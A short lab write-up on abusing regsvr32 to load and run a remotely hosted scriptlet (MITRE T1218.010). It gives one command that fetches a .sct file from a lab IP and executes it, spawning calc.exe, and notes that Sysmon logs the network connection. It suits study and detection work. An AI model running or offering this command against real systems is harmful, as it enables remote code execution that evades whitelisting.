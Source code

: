 
Invoke our file.svt by hosting it on a server
```
regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll
```
calc.exe is spawned by regsvr32.exe:

![image](https://github.com/user-attachments/assets/2d8bab8b-8a61-4b73-92a0-f7e06e90fe7a)

However, sysmon will show regsvr32 establishing a network connection:

![image](https://github.com/user-attachments/assets/7a0a4e63-47a9-4a3a-8987-1e449171381e)

# References
- https://attack.mitre.org/techniques/T1218/010/

